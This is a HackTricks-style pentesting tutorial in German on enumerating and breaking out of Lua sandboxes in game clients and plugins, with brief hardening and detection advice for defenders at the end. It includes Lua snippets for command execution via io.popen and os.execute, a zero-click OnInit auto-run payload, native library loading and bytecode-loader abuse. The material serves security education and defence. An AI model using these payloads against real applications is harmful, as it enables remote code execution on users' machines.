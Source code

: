 # Bypass Lua sandboxes (eingebettete VMs, game clients)

{{#include ../../../banners/hacktricks-training.md}}

Diese Seite sammelt praktische Techniken, um Lua "sandboxes" zu enumerieren und aus ihnen auszubrechen, wenn sie in Anwendungen eingebettet sind (insbesondere game clients, plugins oder in-app scripting engines). Viele Engines stellen eine eingeschränkte Lua-Umgebung bereit, lassen jedoch mächtige globals erreichbar, die beliebige Kommandoausführung oder sogar native memory corruption ermöglichen, wenn bytecode loaders exposed sind.

Kernideen:
- Behandle die VM als unbekannte Umgebung: enumerate _G und finde heraus, welche gefährlichen Primitives erreichbar sind.
- Wenn stdout/print blockiert ist, missbrauche jeden in-VM UI/IPC-Kanal als Ausgabe-Senke, um Ergebnisse zu beobachten.
- Wenn io/os exposed ist, hat man oft direkte Kommandoausführung (io.popen, os.execute).
- Wenn load/loadstring/loadfile exposed sind, kann das Ausführen von präpariertem Lua-Bytecode die Speichersicherheit in manchen Versionen unterlaufen (≤5.1 verifiers sind bypassable; 5.2 removed verifier) und so fortgeschrittene Exploitation ermöglichen.

## Enumerate the sandboxed environment

- Dump the global environment to inventory reachable tables/functions:
```lua
-- Minimal _G dumper for any Lua sandbox with some output primitive `out`
local function dump_globals(out)
out("=== DUMPING _G ===")
for k, v in pairs(_G) do
out(tostring(k) .. " = " .. tostring(v))
end
end
```
- Wenn kein print() verfügbar ist, nutze in-VM-Kanäle. Beispiel aus einer MMO housing script VM, in der chat output nur nach einem sound call funktioniert; das Folgende baut eine verlässliche Ausgabefunktion auf:
```lua
-- Build an output channel using in-game primitives
local function ButlerOut(label)
-- Some engines require enabling an audio channel before speaking
H.PlaySound(0, "r[1]") -- quirk: required before H.Say()
return function(msg)
H.Say(label or 1, msg)
end
end

function OnMenu(menuNum)
if menuNum ~= 3 then return end
local out = ButlerOut(1)
dump_globals(out)
end
```
Verallgemeinere dieses Muster für dein Ziel: jedes Textfeld, toast, logger oder UI-Callback, das strings akzeptiert, kann als stdout für reconnaissance dienen.

## Direkte Kommandoausführung, wenn io/os exponiert sind

Wenn die Sandbox weiterhin die Standardbibliotheken io oder os exponiert, hast du wahrscheinlich sofortige Kommandoausführung:
```lua
-- Windows example
io.popen("calc.exe")

-- Cross-platform variants depending on exposure
os.execute("/usr/bin/id")
io.popen("/bin/sh -c 'id'")
```
Hinweise:
- Die Ausführung erfolgt im Client-Prozess; viele anti-cheat/antidebug-Schichten, die externe Debugger blockieren, verhindern nicht die in-VM-Prozesserstellung.
- Ebenfalls prüfen: package.loadlib (beliebiges Laden von DLL/.so), require mit nativen Modulen, LuaJIT's ffi (falls vorhanden) und die debug library (kann innerhalb der VM Privilegien erhöhen).

## Zero-click-Trigger via auto-run callbacks

Wenn die Host-Anwendung Skripte an Clients verteilt und die VM auto-run hooks (z. B. OnInit/OnLoad/OnEnter) bereitstellt, platziere dein payload dort für einen drive-by compromise, sobald das Skript geladen wird:
```lua
function OnInit()
io.popen("calc.exe") -- or any command
end
```
Jeder äquivalente Callback (OnLoad, OnEnter, etc.) verallgemeinert diese Technik, wenn Skripte automatisch an den client übertragen und dort ausgeführt werden.

## Gefährliche Primitive, die man während recon aufspüren sollte

Während der _G-Aufzählung solltest du insbesondere auf Folgendes achten:
- io, os: io.popen, os.execute, file I/O, env access.
- load, loadstring, loadfile, dofile: führt Source oder Bytecode aus; unterstützt das Laden von nicht vertrauenswürdigem Bytecode.
- package, package.loadlib, require: dynamisches Laden von Bibliotheken und Modul-Schnittstelle.
- debug: setfenv/getfenv (≤5.1), getupvalue/setupvalue, getinfo und hooks.
- LuaJIT-only: ffi.cdef, ffi.load, um nativen Code direkt aufzurufen.

Minimale Nutzungsbeispiele (falls erreichbar):
```lua
-- Execute source/bytecode
local f = load("return 1+1")
print(f()) -- 2

-- loadstring is alias of load for strings in 5.1
local bc = string.dump(function() return 0x1337 end)
local g = loadstring(bc) -- in 5.1 may run precompiled bytecode
print(g())

-- Load native library symbol (if allowed)
local mylib = package.loadlib("./libfoo.so", "luaopen_foo")
local foo = mylib()
```
## Optionale Eskalation: Missbrauch von Lua-Bytecode-Loadern

Wenn load/loadstring/loadfile erreichbar sind, aber io/os eingeschränkt sind, kann die Ausführung von crafted Lua bytecode zu memory disclosure und corruption primitives führen. Wichtige Fakten:
- Lua ≤ 5.1 enthielt einen bytecode verifier, der bekannte bypasses aufweist.
- Lua 5.2 entfernte den verifier vollständig (offizielle Haltung: Anwendungen sollten einfach precompiled chunks ablehnen), wodurch die Angriffsfläche größer wird, falls bytecode loading nicht verboten ist.
- Typische Workflows: leak pointers via in-VM output, craft bytecode to create type confusions (z. B. rund um FORLOOP oder andere opcodes), und dann auf arbitrary read/write oder native code execution übergehen.

Dieser Weg ist engine/version-specific und erfordert RE. Siehe Referenzen für deep dives, exploitation primitives und Beispiel-Gadgetry in Spielen.

## Erkennungs- und Härtungshinweise (für Verteidiger)

- Serverseitig: reject or rewrite user scripts; allowlist safe APIs; strip or bind-empty io, os, load/loadstring/loadfile/dofile, package.loadlib, debug, ffi.
- Clientseitig: Lua mit einem minimalen _ENV ausführen, bytecode loading verbieten, einen strikten bytecode verifier oder Signaturprüfungen wieder einführen und die Prozess-Erzeugung vom Client-Prozess aus blockieren.
- Telemetrie: Alarm bei gameclient → child process creation kurz nach script load; mit UI/chat/script-Ereignissen korrelieren.

## Referenzen

- [This House is Haunted: a decade old RCE in the AION client (housing Lua VM)](https://appsec.space/posts/aion-housing-exploit/)
- [Bytecode Breakdown: Unraveling Factorio's Lua Security Flaws](https://memorycorruption.net/posts/rce-lua-factorio/)
- [lua-l (2009): Discussion on dropping the bytecode verifier](https://web.archive.org/web/20230308193701/https://lua-users.org/lists/lua-l/2009-03/msg00039.html)
- [Exploiting Lua 5.1 bytecode (gist with verifier bypasses/notes)](https://gist.github.com/ulidtko/51b8671260db79da64d193e41d7e7d16)

{{#include ../../../banners/hacktricks-training.md}}
